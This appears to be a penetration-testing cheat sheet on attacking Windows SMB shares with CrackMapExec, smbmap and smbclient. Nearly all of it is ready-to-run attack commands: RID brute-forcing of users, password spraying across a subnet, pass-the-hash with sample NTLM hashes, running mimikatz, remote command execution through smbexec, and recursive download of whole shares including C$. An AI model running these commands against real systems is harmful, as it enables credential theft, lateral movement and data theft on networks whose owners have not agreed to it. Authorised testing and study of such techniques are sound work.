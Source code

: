 #### `CrackMapExec`
Works perfectly, list shares and permissions, enum users, disks, code execute and run modules like mimikatz. Hashes work.
```sh
crackmapexec -u 'guest' -p '' --shares 192.168.1.23
crackmapexec -u 'guest' -p '' --rid-brute 4000 192.168.1.23
crackmapexec -u 'guest' -p '' --users 192.168.1.23
crackmapexec smb 192.168.1.0/24 -u Administrator -p P@ssw0rd
crackmapexec smb 192.168.1.0/24 -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -M mimikatz 192.168.1.0/24
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -x whoami 192.168.1.23
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B --exec-method smbexec -x whoami 192.168.1.23 # reliable pth code execution
```

#### `smbmap`
Works well for listing and downloading files, and listing shares and permissions. Hashes work. Code execution don't work.
```sh
smbmap -u '' -p '' -H 192.168.1.23 # similar to crackmapexec --shares
smbmap -u guest -p '' -H 192.168.1.23
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -r # list top level dir
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -R # list everything recursively
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -s wwwroot -R -A '.*' # download everything recursively in the wwwroot share to /usr/share/smbmap. great when smbclient doesnt work
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -x whoami # no work
```

#### `smbclient`
Access SMB shares interactively, seems to work with anonymous access. Hashes don't work.
```sh
smbclient //192.168.1.23/wwwroot
smbclient //192.168.1.23/C$ WIN20082017 -U Administrator
smbclient //192.168.1.23/C$ A433F6C2B0D8BB92D7288ECFFACFC7CD -U Administrator --pw-nt-hash # make sure to only use the NT portion of the hash
```

WARNNIG, be careful when using the `get` command to download absolute path files from the remote system. Eg. `get /etc/passwd` will download the passwd file and ovewrite YOUR `/etc/passwd`. Use `get /etc/passwd /tmp/passwd` instead.

To download recursively:
```
# Within smbclient, download everything recursively:
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '~/path/to/download/to/'
mget *
```
